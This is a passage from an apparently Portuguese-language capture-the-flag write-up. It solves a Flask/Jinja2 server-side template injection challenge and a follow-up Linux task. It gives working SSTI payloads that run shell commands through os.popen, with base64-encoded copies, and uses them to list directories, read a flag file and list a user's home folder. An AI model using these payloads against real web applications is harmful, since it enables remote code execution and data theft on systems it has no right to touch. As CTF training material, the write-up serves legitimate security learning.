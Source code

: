 ![ssti_id](https://github.com/user-attachments/assets/540a3440-6918-4206-9dec-7d8652b73ba9)

`{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscycpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh 

![ssti_ls](https://github.com/user-attachments/assets/12441cf3-d150-41c8-a0ee-4f127e1fa1d3)

`{{config.__class__.__init__.__globals__['os'].popen('cat ./flag.txt').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdjYXQgLi9mbGFnLnR4dCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh

![ssti_cat](https://github.com/user-attachments/assets/30252881-b3b5-4f9c-a993-5f5a9edb4818)

QUACK{W17h_5571_RC3_15_v3ry_51mpl3}


## **Task Linux - Duck**
Você tem o suficiente para acessar o servidor!
### **Solução**
`{{config.__class__.__init__.__globals__['os'].popen('ls /home').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAvaG9tZScpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh

![ssti_ls2](https://github.com/user-attachments/assets/e928efc7-40e4-4932-9a93-5d13c92597d3)

`{{config.__class__.__init__.__globals__['os'].popen('ls -lah /home/duck').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAtbGFoIC9ob21lL2R1Y2snKS5yZWFkKCl9fTo3MDNiMTc5Njk1YjI2ZmMwMWU0YjE4ZTNlNjA1ZGUyYQ==

![ssti_ls3](https://github.com/user-attachments/assets/d5a5c0e1-75bf-4313-83af-a5ba35cd7d7d)

Organizado:

total 100K 

drwxr-xr-x 8 duck duck 4.0K Aug 22 17:49 . 

drwxr-xr-x 4 root root 4.0K Aug 14 08:48 .. 

drwxr-xr-x 2 root root 4.0K Aug 22 17:46 .bash_history 

-rw-r--r-- 1 duck duck 220 Aug 14 08:48 .bash_logout 

-rw-r--r-- 1 duck duck 3.7K Aug 22 17:49 .bashrc 

drwxrwxr-x 3 duck duck 4.0K Aug 21 23:59 .cache 

drwx------ 3 duck duck 4.0K Aug 21 20:35 .config 

-rw------- 1 duck duck 20 Aug 22 04:07 .lesshst
